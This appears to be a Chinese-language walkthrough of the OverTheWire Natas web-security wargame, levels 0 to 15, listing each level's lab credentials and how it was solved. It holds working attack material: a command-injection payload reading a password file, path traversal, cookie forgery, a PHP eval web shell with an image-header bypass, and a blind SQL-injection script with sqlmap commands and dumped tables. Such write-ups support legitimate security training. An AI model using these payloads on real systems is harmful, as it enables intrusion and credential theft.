## Level 0

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas0</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>natas0</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas0.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 提示：`You can find the password for the next level on this page.`
- 使用开发者工具查看页面源代码即可获得下一关的口令<br>


## Level 1

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas1</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>gtVrDuiDfck831PqWsLEZy5gyDz1clto</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas1.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 提示：`You can find the password for the next level on this page, but rightclicking has been blocked!`（但是咕咕几乎不怎么用右键查看页面源代码的(╮ŏωŏ)╭）
- 使用开发者工具查看页面源代码即可获得下一关的口令<br>


## Level 2

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas2</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas2.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 提示：`There is nothing on this page`
- 查看页面源代码，发现使用了一张`files`路径下的图片（因为只有 1X1 的大小，所以页面上看不到）<br>

- 访问 http://natas2.natas.labs.overthewire.org/files ，发现该路径下还有一个 *users.txt* 文件，查看该文件获得用户 *natas3* 的口令
  ```
  # username:password
  alice:BYNdCesZqW
  bob:jw2ueICLvT
  charlie:G5vCxkVV3m
  natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
  eve:zo4mJWyNj2
  mallory:9urtcpzBmH
  ```

## Level 3

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas3</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas3.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 这次页面上依然是`There is nothing on this page`，查看页面源代码，发现一段注释信息：`No more information leaks!! Not even Google will find it this time...`
- 嗯？怎么能让谷歌抓取不到网站的？
  > 网站所有者可以详细规定处理其网页的方式，申请重新抓取，或使用 robots.txt 文件完全禁止谷歌抓取工具抓取他们的网站

- 访问 http://natas3.natas.labs.overthewire.org/robots.txt ，查看 *robots.txt* 文件
  ```bash
  # 禁止所有爬虫爬取路径 /s3cr3t
  User-agent: *
  Disallow: /s3cr3t/
  ```
- 目标指向 http://natas3.natas.labs.overthewire.org/s3cr3t/ ，访问可查看到该路径下的一个 *users.txt* 文件，其中包含下一关的口令
  ```
  natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
  ```

### 参考资料

- [Google 搜索的工作方式 | 抓取和编入索引](https://www.google.com/intl/zh-CN/search/howsearchworks/crawling-indexing/)
- [Robots.txt Specifications  |  Search for Developers  |  Google Developers](https://developers.google.com/search/reference/robots_txt)

## Level 4

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas4</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas4.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 进入后提示<br>

- 点击 *Refresh page* 后，从 http://natas4.natas.labs.overthewire.org 进入 http://natas4.natas.labs.overthewire.org/index.php ，且提示文本发生变化<br>

- 在 HTTP 请求头中包含 *Referer* 字段，用于标识访问来源，提示信息中 *visit from* 的意义与值均与 *Referer* 字段相同，那么将 *Referer* 字段的值改为`http://natas5.natas.labs.overthewire.org/`，再次发送 HTTP 请求即可<br>
<br>


## Level 5

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas5</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas5.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 进入后提示没有登录！(╥ω╥)<br>

- 查看 HTTP 请求头，发现 *Cookie* 字段为`loggedin=0`，非常可疑(—ˋωˊ—)！<br>

- 将`loggedin=0`修改为`loggedin=1`并发送 HTTP 请求，成功登录！<br>


## Level 6

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas6</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas6.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 出现输入框了！<br>

- 先看看源代码
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas6</h1>
  <div id="content">

  <?

  include "includes/secret.inc";
  # 使用的是相对路径

      if(array_key_exists("submit", $_POST)) {
          # 需要知道 $secret 的值
          if($secret == $_POST['secret']) {
          print "Access granted. The password for natas7 is <censored>";
      } else {
          print "Wrong secret";
      }
      }
  ?>

  <form method=post>
  Input secret: <input name=secret><br>
  <input type=submit name=submit>
  </form>

  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 注意到 *include* 文件使用的是相对路径，访问 http://natas6.natas.labs.overthewire.org/includes/secret.inc ，在网页源代码中看到变量 *$secret* 的值<br>

- 回到 http://natas6.natas.labs.overthewire.org ，输入密码，获得 *natas7* 的口令<br>


## Level 7

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas7</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>7z3hEENjQtflzgnT29q7wAvMNfZdh0i9</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas7.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 首页给出了 *Home* 和 *About* 页面的链接，并提示 *natas8* 的口令存储在`/etc/natas_webpass/natas8`<br>

- 通过 GET 方式传递参数给 *index.php*，那么除了`home`和`about`，随便传一个值试试叭(—ˋωˊ—)<br>

- `include()`首先查看传入的文件路径（由上图可知，传入`include()`函数的参数即为 *page* 变量的值），其次查看定义的`include_path`，最后检查调用脚本所在的目录和当前工作目录。那么可通过`page=/etc/natas_webpass/natas8`或`page=../../../../etc/natas_webpass/natas8`来获得下一关的口令

### 参考资料

[PHP: include - Manual](https://www.php.net/manual/en/function.include.php)

## Level 8

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas8</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas8.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 再次出现输入框，先查看源代码
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas8</h1>
  <div id="content">

  <?

  $encodedSecret = "3d3d516343746d4d6d6c315669563362";

  function encodeSecret($secret) {
      return bin2hex(strrev(base64_encode($secret)));
  }
  # 输入经过 Base64 编码、字符串反转，最后转化为十六进制字符串
  # 结果要与 $encodedSecret 相等
  if(array_key_exists("submit", $_POST)) {
      if(encodeSecret($_POST['secret']) == $encodedSecret) {
      print "Access granted. The password for natas9 is <censored>";
      } else {
      print "Wrong secret";
      }
  }
  ?>

  <form method=post>
  Input secret: <input name=secret><br>
  <input type=submit name=submit>
  </form>

  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 对`$encodedSecret`进行逆操作，以得到要提交的`secret`的值
  ```bash
  $ echo 0x3d3d516343746d4d6d6c315669563362 | xxd -r | rev | base64 -d
  oubWYf2kBq
  ```
- 提交即可获取口令<br>


## Level 9

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas9</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas9.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 要求的输入发生变化了<br>

- 总之先查看源代码
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas9</h1>
  <div id="content">
  <form>
  Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
  </form>


  Output:
  <pre>
  <?
  $key = "";

  if(array_key_exists("needle", $_REQUEST)) {
      $key = $_REQUEST["needle"];
  }

  if($key != "") {
      passthru("grep -i $key dictionary.txt");
  }
  ?>
  </pre>

  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 输入没有经过任何处理直接放到命令字符串里了！这样一来，可就不能只执行一个命令了哦~👿提交`;cat /etc/natas_webpass/natas10 #`，拼接后的命令如下
  ```bash
  grep -i ;cat /etc/natas_webpass/natas10 # dictionary.txt
  ```
- 成功获得下一关的口令<br>


## Level 10

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas10</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas10.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 这回会过滤掉一些字符(ŏωŏ)<br>

- 通过源代码，发现分隔符被过滤掉了(╥ω╥)
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas10</h1>
  <div id="content">

  For security reasons, we now filter on certain characters<br/><br/>
  <form>
  Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
  </form>


  Output:
  <pre>
  <?
  $key = "";

  if(array_key_exists("needle", $_REQUEST)) {
      $key = $_REQUEST["needle"];
  }

  if($key != "") {
      # 过滤掉了分隔符
      if(preg_match('/[;|&]/',$key)) {
          print "Input contains an illegal character!";
      } else {
          passthru("grep -i $key dictionary.txt");
      }
  }
  ?>
  </pre>

  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 不过，`grep`可以同时处理多个文件，那么只要猜测`/etc/natas_webpass/natas11`文件内容中的一个字符就可以啦~（推荐猜数字(<ゝωΦ)，*0-9* 就可以，同时 *dictionary.txt* 文件中也不含数字）
  > Usage: grep [OPTION]... PATTERN [FILE]...
- 提交`1 /etc/natas_webpass/natas11`，惊喜！<br>


## Level 11

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas11</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas11.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 可以通过表单提交并设置背景颜色，提示：*Cookies 受异或加密保护* ？<br>

- 查看网页源代码，了解到需要通过 *Cookie* 设置`showpassword`的值为`yes`
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <?

  # 变量 $defaultdata 中 showpassword 的初始值为 no
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = '<censored>';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      # 异或运算，可通过将输入和输出异或得到变量 $key
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  function loadData($def) {
      # HTTP 请求头中包含的 Cookie 主要用于传递 showpassword 的值
      global $_COOKIE;
      $mydata = $def;
      if(array_key_exists("data", $_COOKIE)) {
      $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
      if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
          if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
          $mydata['showpassword'] = $tempdata['showpassword'];
          $mydata['bgcolor'] = $tempdata['bgcolor'];
          }
      }
      }
      return $mydata;
  }

  # 保存到 Cookie 中
  function saveData($d) {
      setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
  }

  # 将 Cookie 的值经过 Base64 解码、与密钥异或并转化为 json 格式赋值给变量 $data
  $data = loadData($defaultdata);

  # 接收通过 GET 请求（表单）提交的背景颜色并设置
  if(array_key_exists("bgcolor",$_REQUEST)) {
      if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
          $data['bgcolor'] = $_REQUEST['bgcolor'];
      }
  }

  saveData($data);

  ?>

  <h1>natas11</h1>
  <div id="content">
  <body style="background: <?=$data['bgcolor']?>;">
  Cookies are protected with XOR encryption<br/><br/>

  <?
  # 需要得到包含 $data["showpassword"] == "yes" 对应的 Cookie
  if($data["showpassword"] == "yes") {
      print "The password for natas12 is <censored><br>";
  }

  ?>

  <form>
  Background color: <input name=bgcolor value="<?=$data['bgcolor']?>">
  <input type=submit value="Set color">
  </form>

  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 直接提交表单，获得变量`$defaultdata`对应的 *Cookie*<br>

- 通过异或获得变量`$key`的值
  ```php
  <?php
  # calc.php
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
  $data = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=";

  function xor_encrypt($in, $out) {
      $outText = '';
      for($i=0;$i<strlen($in);$i++) {
      $outText .= $in[$i] ^ $out[$i % strlen($out)];
      }
      return $outText;
  }

  echo xor_encrypt(base64_decode($data), json_encode($defaultdata));
  ?>
  ```
- 循环节长度为 4，轻松获得`$key`值：*qw8J*
  ```bash
  $ php -f calc.php
  qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
  ```
- 接下来获取目标 *Cookie*
  ```bash
  $ php -f calc.php
  ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
  ```
  ```php
  <?php
  # calc.php
  $targetdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = 'qw8J';
      $text = $in;
      $outText = '';
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }
      return $outText;
  }

  echo base64_encode(xor_encrypt(json_encode($targetdata)));
  ?>
  ```
- 编辑原 HTTP 请求头中的 *Cookie* 的值，并再次发送，成功获取下一关口令<br>


## Level 12

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas12</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas12.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 表单：上传 JPEG 文件<br>

- 查看源代码，注意到并没有对上传文件进行类型检查（包括文件后缀名），上传到服务器后，文件名是随机生成的字符串，文件后缀名则由前端直接定义
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas12</h1>
  <div id="content">
  <?

  # 生成长度为 10 的随机字符串
  function genRandomString() {
      $length = 10;
      $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
      $string = "";

      for ($p = 0; $p < $length; $p++) {
          $string .= $characters[mt_rand(0, strlen($characters)-1)];
      }

      return $string;
  }

  function makeRandomPath($dir, $ext) {
      do {
      $path = $dir."/".genRandomString().".".$ext;
      } while(file_exists($path));
      return $path;
  }

  function makeRandomPathFromFilename($dir, $fn) {
      # 获得传入路径字符串中的文件扩展名
      $ext = pathinfo($fn, PATHINFO_EXTENSION);
      return makeRandomPath($dir, $ext);
  }

  if(array_key_exists("filename", $_POST)) {
      $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
      if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
          echo "File is too big";
      }
      else {
          if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
              echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
          } else{
              echo "There was an error uploading the file, please try again!";
          }
      }
  }
  else {
  ?>

  <form enctype="multipart/form-data" action="index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <!-- 直接定义文件后缀名。此处显示的文件名无效 -->
  <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
  Choose a JPEG to upload (max 1KB):<br/>
  <input name="uploadedfile" type="file" /><br />
  <input type="submit" value="Upload File" />
  </form>
  <? } ?>
  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 创建并编辑文件`hack.php`
  ```php
  <?php @eval($_POST['pass']);?>
  ```
- 修改前端表单，将文件后缀`jpg`改为`php`，并上传文件`hack.php`<br>

- 保存文件链接<br>

- 先使用中国菜刀浏览器访问 http://natas12.natas.labs.overthewire.org，完成身份验证
- 添加SHELL<br>

- 进入文件系统后，找到`/etc/natas_webpass/natas13`即可<br>


## Level 13

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas13</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas13.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 页面提示只接收图片文件<br>

- 源码中使用`exif_imagetype`函数判断上传的文件是否为图片（返回 FALSE 或图片类型），`exif_imagetype`通过读取文件的第一个字节进行判断
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas13</h1>
  <div id="content">
  For security reasons, we now only accept image files!<br/><br/>

  <?

  function genRandomString() {
      $length = 10;
      $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
      $string = "";

      for ($p = 0; $p < $length; $p++) {
          $string .= $characters[mt_rand(0, strlen($characters)-1)];
      }

      return $string;
  }

  function makeRandomPath($dir, $ext) {
      do {
      $path = $dir."/".genRandomString().".".$ext;
      } while(file_exists($path));
      return $path;
  }

  function makeRandomPathFromFilename($dir, $fn) {
      $ext = pathinfo($fn, PATHINFO_EXTENSION);
      return makeRandomPath($dir, $ext);
  }

  if(array_key_exists("filename", $_POST)) {
      $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

      $err=$_FILES['uploadedfile']['error'];
      if($err){
          if($err === 2){
              echo "The uploaded file exceeds MAX_FILE_SIZE";
          } else{
              echo "Something went wrong :/";
          }
      } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
          echo "File is too big";
      } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
          echo "File is not an image";
      } else {
          if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
              echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
          } else{
              echo "There was an error uploading the file, please try again!";
          }
      }
  } else {
  ?>

  <form enctype="multipart/form-data" action="index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
  Choose a JPEG to upload (max 1KB):<br/>
  <input name="uploadedfile" type="file" /><br />
  <input type="submit" value="Upload File" />
  </form>
  <? } ?>
  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 在`hack.php`中添加任意图片文件文件头即可绕过`exif_imagetype`检查
  ```php
  BM
  <?php @eval($_POST['pass']);?>
  ```
- 接下来，修改前端文件后缀名、上传文件、使用菜刀的步骤、方法与 [Level 12](#level-12) 一致<br>


### 参考资料

[PHP: exif_imagetype - Manual](https://www.php.net/manual/en/function.exif-imagetype.php)

## Level 14

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas14</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas14.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 一个用户登录的表单<br>

- 从源代码可以看到，提交的表单字符串未经过任何过滤，直接被拼接到了 SQL 语句中
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas14</h1>
  <div id="content">
  <?
  if(array_key_exists("username", $_REQUEST)) {
      $link = mysql_connect('localhost', 'natas14', '<censored>');
      mysql_select_db('natas14', $link);

      # 注意是双引号
      $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
      if(array_key_exists("debug", $_GET)) {
          echo "Executing query: $query<br>";
      }

      if(mysql_num_rows(mysql_query($query, $link)) > 0) {
              echo "Successful login! The password for natas15 is <censored><br>";
      } else {
              echo "Access denied!<br>";
      }
      mysql_close($link);
  } else {
  ?>

  <form action="index.php" method="POST">
  Username: <input name="username"><br>
  Password: <input name="password"><br>
  <input type="submit" value="Login" />
  </form>
  <? } ?>
  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 使用最简单的 SQL 注入方式即可<br>

- 下一关口令 GET✔<br>


## Level 15

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas15</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas15.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 输入用户名，检查该用户是否存在<br>

- 查看源码，其中提供了 users 数据库表结构，各字段的类型及长度限制
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas15</h1>
  <div id="content">
  <?

  # 提供了 users 数据库表结构
  /*
  CREATE TABLE `users` (
    `username` varchar(64) DEFAULT NULL,
    `password` varchar(64) DEFAULT NULL
  );
  */

  if(array_key_exists("username", $_REQUEST)) {
      $link = mysql_connect('localhost', 'natas15', '<censored>');
      mysql_select_db('natas15', $link);

      $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
      if(array_key_exists("debug", $_GET)) {
          echo "Executing query: $query<br>";
      }
      $res = mysql_query($query, $link);
      if($res) {
      # 查询结果不直接回显
      if(mysql_num_rows($res) > 0) {
          echo "This user exists.<br>";
      } else {
          echo "This user doesn't exist.<br>";
      }
      } else {
          echo "Error in query.<br>";
      }

      mysql_close($link);
  } else {
  ?>

  <form action="index.php" method="POST">
  Username: <input name="username"><br>
  <input type="submit" value="Check existence" />
  </form>
  <? } ?>
  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 由于查询结果不能回显到前端，需要进行 SQL 盲注（*blind-based SQL injection*）
- 需要获取的是用户 **natas16** 的口令，查询、确认该用户存在<br>

- 通过布尔型 SQL 盲注获取 32 位的口令
  ```py
  #!/usr/bin/python
  # -*- coding: UTF-8 -*-

  import requests
  from lxml import etree

  auth_username = 'natas15'
  auth_password = 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'
  url = 'http://natas15.natas.labs.overthewire.org'

  table = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'

  key = ''
  for i in range(1, 33):
      l, r = 0, 61
      while l <= r:
          mid = (l + r) >> 1
          ch = table[mid]
          res = requests.post(url + '/index.php', {'username' : '" UNION SELECT * FROM users WHERE username = "natas16" and ascii(SUBSTRING(password, %d, 1)) >= ascii("%s")#' % (i, ch)}, auth = (auth_username, auth_password), headers={'Connection':'close'})
          sqlres = etree.HTML(res.content).xpath('/html/body/div/text()')[0]
          if "This user exists" in sqlres:
              l = mid + 1
              ans = mid
          else:
              r = mid - 1
      key += table[ans]
  print(key)
  ```
- 也可以使用`sqlmap`
  ```bash
  # 枚举数据库
  $ sqlmap -u http://natas15.natas.labs.overthewire.org/index.php --auth-type=basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J --data=username=natas16 --dbms=mysql --level=5 --dbs
  ...
  available databases [2]:
  [*] information_schema
  [*] natas15
  ...

  # 表名已知，直接获取 users 表
  $ sqlmap -u http://natas15.natas.labs.overthewire.org/index.php --auth-type=basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J --data=username=natas16 --dbms=mysql --level=5 -D natas15 -T users --dump
  ...
  Database: natas15
  Table: users
  [4 entries]
  +----------+----------------------------------+
  | username | password                         |
  +----------+----------------------------------+
  | bob      | 6P151OntQe                       |
  | charlie  | HLwuGKts2w                       |
  | alice    | hROtsfM734                       |
  | natas16  | WaIHEacj63wnNIBROHeqi3p9t0m5nhmh |
  +----------+----------------------------------+
  ...
  ```

